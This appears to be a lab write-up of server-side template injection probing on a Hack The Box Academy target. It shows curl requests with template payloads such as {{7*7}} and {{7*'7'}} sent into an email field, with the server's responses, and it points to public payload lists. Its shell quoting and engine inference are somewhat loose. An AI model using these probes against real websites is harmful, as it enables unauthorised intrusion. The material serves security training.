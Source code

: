 ![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/8188ece6-e5a7-4344-b84d-b00f6c716a3f)

Next web site is uses input for register email. We will check that email input section


We can use curl or direct web site to enter payload to input:
Our first payload is: `${7*7}`
```bash
curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email ${7*7} has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

This payload doesn't look like work, let's use this -> `{{7*7}}`
The application evaluated the submitted expression this time. 
Let's continue, as PortSwigger's diagram suggests, to identify the underlying template engine.

Next payload: `{{7*'7'}}`

```bash
curl -X POST -d 'email={{7*'7'}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```
Default payload which is `{{_self.env.display("TEST"}}` didn't work, we have to test every payload from:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

